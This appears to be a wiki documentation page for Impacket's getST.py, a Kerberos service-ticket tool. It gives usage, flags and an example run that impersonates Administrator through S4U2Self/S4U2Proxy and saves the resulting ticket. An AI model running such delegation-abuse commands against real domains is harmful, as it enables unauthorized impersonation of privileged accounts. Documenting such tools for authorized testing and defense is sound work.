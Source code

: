 ```yaml
---
title : "GetST.py"
# pre : ' '
description : "Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache."
date : 2022-02-14T12:21:48+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## GetST.py

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache.

## Installation

Install [Impacket]({{< ref "../impacket" %}}).

## Usage

```plain
getST.py [-h] [-spn SPN] [-altservice ALTSERVICE] [-impersonate IMPERSONATE] [-additional-ticket ticket.ccache] [-ts] [-debug] [-u2u] [-self] [-force-forwardable] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                [-dc-ip ip address]
                identity
```

## Flags

```plain
Impacket v0.12.0.dev1+20240718.115833.4e0e3174 - Copyright 2023 Fortra

positional arguments:
  identity              [domain/]username[:password]

options:
  -h, --help            show this help message and exit
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -altservice ALTSERVICE
                        New sname/SPN to set in the ticket
  -impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -additional-ticket ticket.ccache
                        include a forwardable service ticket in a S4U2Proxy request for RBCD + KCD Kerberos only
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -u2u                  Request User-to-User ticket
  -self                 Only do S4U2self, no S4U2proxy
  -force-forwardable    Force the service ticket obtained through S4U2Self to be forwardable. For best results, the -hashes and -aesKey values for the specified -identity should be provided. This allows impresonation of protected
                        users and bypass of "Kerberos-only" constrained delegation restrictions. See CVE-2020-17049

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If omitted it use the domain part (FQDN) specified in the target parameter

Examples: 
        ./getST.py -spn cifs/contoso-dc -hashes lm:nt contoso.com/user

        it will use the lm:nt hashes for authentication. If you don't specify them, a password will be asked
```

## Examples

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## URL List

- [Github.com - getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)
